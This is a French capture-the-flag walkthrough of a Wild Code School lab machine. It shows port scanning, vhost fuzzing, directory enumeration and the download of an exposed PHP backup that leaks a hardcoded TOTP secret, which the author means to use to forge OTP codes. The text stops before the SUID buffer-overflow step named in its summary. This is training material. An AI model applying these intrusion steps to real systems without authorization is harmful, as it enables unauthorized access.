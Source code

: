 # WCS - OAuth

Résumé :
  - Analyse de port TCP.
  - Énumération des dossiers et également des VHOSTS et il s'avère que un VHOST `dev`.
  - Exploitation du système `GoogleAuthenticator` et après l'accès avoir un accès sur la platforme `Python`.
  - Fichier atypique qui supporte `SUID` et faire une attaque par buffer overflow avec la technique de la retour à la libc.
  

Commençons par faire un scan de port :

    root@wildcodeschool# nmap -p22,80 -sC -sV 172.30.20.253 --min-rate 10000
    Starting Nmap 7.91 ( https://nmap.org ) at 2021-02-08 12:29 CET
    Nmap scan report for 172.30.20.253
    Host is up (0.025s latency).

    PORT   STATE SERVICE VERSION
    22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey: 
    |   2048 2d:60:2a:2a:98:a5:ac:68:3d:a3:64:79:08:6d:81:52 (RSA)
    |   256 3a:e5:20:ac:b7:e4:2e:fc:0a:91:4d:d9:f0:5e:2f:3e (ECDSA)
    |_  256 d4:47:2c:de:36:6a:3f:f6:05:a9:00:9a:26:3e:fa:30 (ED25519)
    80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
    |_http-server-header: Apache/2.4.29 (Ubuntu)
    |_http-title: Apache2 Ubuntu Default Page: It works
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

    Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
    Nmap done: 1 IP address (1 host up) scanned in 9.18 seconds
    
Il s'avère que le port `22` et `80` est ouvert, donc nous pouvons supposer que le serveur tourne sur `Ubuntu 18.04` en regardant le release des versions.

# HTTP

Lorsque je tape l'adresse IP sur le navigateur et il me redirige automatiquement vers le `VHOST => oauth.wcs`, donc je vais mettre ça dans mon fichier `/etc/hosts`.

    127.0.0.1       localhost
    127.0.1.1       wildcodeschool

    172.30.20.253   oauth.wcs

    # The following lines are desirable for IPv6 capable hosts
    ::1     localhost ip6-localhost ip6-loopback
    ff02::1 ip6-allnodes
    ff02::2 ip6-allrouters

Lorsque je tape `oauth.wcs` sur mon navigateur, il me redirige automatiquement vers la page par défaut de `Ubuntu`.

![test](https://raw.githubusercontent.com/0ldProgrammer/0ldProgrammer.github.io/master/Screenshot_2021-02-08_12-36-19.png)

J'ai effectué plusieurs recherches vis à vis des dossiers ou des fichiers, mais `gobuster` n'a strictement rien trouvé. Je vais chercher des `VHOSTS` avec l'outil `wfuzz` et de voir si nous pouvons accéder différement à la machine.

(VHOST est simplement un système qui permet d'avoir plusieurs site sur une même adresse IP)

     root@wildcodeschool# wfuzz -w /usr/share/dnsrecon/subdomains-top1mil-5000.txt -u http://172.30.20.253/ -H "Host: FUZZ.oauth.wcs" --hl 376
     /usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.
    ********************************************************
    * Wfuzz 3.1.0 - The Web Fuzzer                         *
    ********************************************************

    Target: http://172.30.20.253/
    Total requests: 5000

    =====================================================================
    ID           Response   Lines    Word       Chars       Payload                                                                                    
    =====================================================================

    000000019:   200        32 L     78 W       1161 Ch     "dev"
    
D'après les scans, l'outil à trouvé le VHOST `dev`, donc je vais en profiter pour mettre ça dans mon fichier `/etc/hosts`.

    root@wildcodeshool: cat /etc/hosts
    127.0.0.1       localhost
    127.0.1.1       oldprogrammer

    172.30.20.253   oauth.wcs dev.oauth.wcs

    # The following lines are desirable for IPv6 capable hosts
    ::1     localhost ip6-localhost ip6-loopback
    ff02::1 ip6-allnodes
    ff02::2 ip6-allrouters
    
# dev.oauth.wcs

Une autre page assez intéréssante, j'ai essayé de mettre un code `OTP` mais sans succès, j'ai même esssayé de brute-force de 0 à 1000000, cela n'a pas abouti.

![test](https://raw.githubusercontent.com/0ldProgrammer/0ldProgrammer.github.io/master/Screenshot_2021-02-08_12-45-07.png)

Cherchons des dossiers et ou des fichiers avec `gobuster`.

    root@wildcodeschool# gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://dev.oauth.wcs/
    ===============================================================
    Gobuster v3.0.1
    by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
    ===============================================================
    [+] Url:            http://dev.oauth.wcs/
    [+] Threads:        10
    [+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
    [+] Status codes:   200,204,301,302,307,401,403
    [+] User Agent:     gobuster/3.0.1
    [+] Timeout:        10s
    ===============================================================
    2021/02/08 12:47:21 Starting gobuster
    ===============================================================
    /includes (Status: 301)

Il y a un dossier `/includes` assez intéréssant, lorsque je rentre dedans il y a trois dossiers (css, js, php). Lorsque je rentre dans le dossier `php`, il y a un fichier `access.php.bak` qui pouvait être télécharger par n'importe qui, donc je vais le télécharger et le mettre dans ma machine physique.

![test](https://raw.githubusercontent.com/0ldProgrammer/HTB-SCRIPT/master/Screenshot_2021-02-08_12-50-02.png)

    root@wildcodeschool# wget http://dev.oauth.wcs/includes/php/access.php.bak
    --2021-02-08 12:51:32--  http://dev.oauth.wcs/includes/php/access.php.bak
    Resolving dev.oauth.wcs (dev.oauth.wcs)... 172.30.20.253
    Connecting to dev.oauth.wcs (dev.oauth.wcs)|172.30.20.253|:80... connected.
    HTTP request sent, awaiting response... 200 OK
    Length: 320 [application/x-trash]
    Saving to: ‘access.php.bak’

    access.php.bak                         100%[============================================================================>]     320  --.-KB/s    in 0s      

    2021-02-08 12:51:32 (25.1 MB/s) - ‘access.php.bak’ saved [320/320]
    
Affichons le fichier pour essayer de comprendre le code :

```php
<?php
        require_once 'GoogleAuthenticator.php';
        $ga = new PHPGangsta_GoogleAuthenticator();
        $secret = "P4UJGRUHNI6KNI3O";

        if ($_POST['action'] == 'check_code') {
                $code = $_POST['code'];
                $result = $ga->verifyCode($secret, $code, 1);

                if ($result) {
                        include('coder.php');
                } else {
                        echo "wrong";
                }
        }
?>
```

Les points les plus intéréssants dans le code PHP :

- `require_once 'GoogleAuthenticator.php';` importe le module `GoogleAuthenticator.php` mais n'est pas présent dans mon dossier actuel donc l'exécution ne fonctionnera pas (possible de l'installer depuis [ICI](https://raw.githubusercontent.com/PHPGangsta/GoogleAuthenticator/master/PHPGangsta/GoogleAuthenticator.php).
- `$secret = "P4UJGRUHNI6KNI3O";` est un mot de passe pour la génération d'un code `OTP`, cela nous sera très utile de créer notre propre code et l'envoyer au serveur.
- `$result = $ga->verifyCode($secret, $code, 1);` l'application teste si le code est correcte, si le code est correcte, il redirige vers `coder.php` sinon il affiche une erreur (wrong).

